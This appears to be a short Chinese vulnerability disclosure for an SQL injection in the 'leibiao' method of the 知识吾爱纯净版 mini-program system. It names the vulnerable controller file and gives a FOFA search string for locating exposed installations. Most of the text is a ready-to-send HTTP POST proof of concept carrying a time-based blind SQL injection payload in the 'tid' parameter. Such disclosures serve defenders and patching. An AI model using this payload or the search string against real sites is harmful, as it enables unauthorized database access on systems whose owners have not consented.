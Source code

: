 # 知识吾爱纯净版小程序系统leibiao存在SQL注入漏洞

知识吾爱纯净版小程序系统leibiao存在SQL注入漏洞，位于 /Application/App/Controller/ZmController.class.php 控制器中的leibiao方法直接POST传入tid参数，然后直接带到sql查询中，导致漏洞产生。

fofa

```javascript
"域名/skdjfdf"
```

## poc

```javascript
POST /app/zm/leibiao HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=q7pp0d3p3f5ileeqhnf8v5lnt1
Connection: close
Content-Length: 55

tid=(CASE WHEN (3711=3711) THEN SLEEP(5) ELSE 3711 END)
```

![c469f37e9896e4ad478f4d75eadc4196](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181628116.jpg)